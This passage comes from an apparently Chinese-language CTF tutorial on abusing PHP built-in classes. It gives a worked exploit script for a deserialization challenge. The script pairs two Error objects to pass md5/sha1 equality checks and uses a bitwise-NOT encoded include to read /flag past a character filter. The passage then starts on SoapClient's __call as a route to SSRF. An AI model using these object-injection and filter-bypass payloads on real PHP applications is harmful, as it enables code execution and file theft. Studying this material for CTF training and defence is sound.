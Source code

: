  输出结果为  ：

```php
值不相等
md5值相等
sha1值相等
```

例题：直接给题解：

```php
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}
$cmd='/flag';
$cmd=urlencode(~$cmd)
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
也可以用，也需要用两次取反
$str1 = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!".urldecode("%FF")."]?>";
$str = "?><?=include $_GET[1]?>"; 
*/
$a=new Error($str,1);$b=new Error($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>
```

### 2、SoapClient内置类

SoapClient是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端，可以创建soap数据报文，与wsdl接口进行交互

注意：

1. **soap扩展模块默认关闭，使用时需手动开启**
2. SoapClient::__call() -----调用 SOAP 函数 (**PHP 5, 7, 8**)
3. 该内置类有一个 __call 方法，当 __call 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 __call 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。而__call触发很简单，就是当对象访问不存在的方法的时候就会触发。  
4. 该类的构造函数如下：
   **public SoapClient :: SoapClient(mixed $wsdl [，array $options ])**
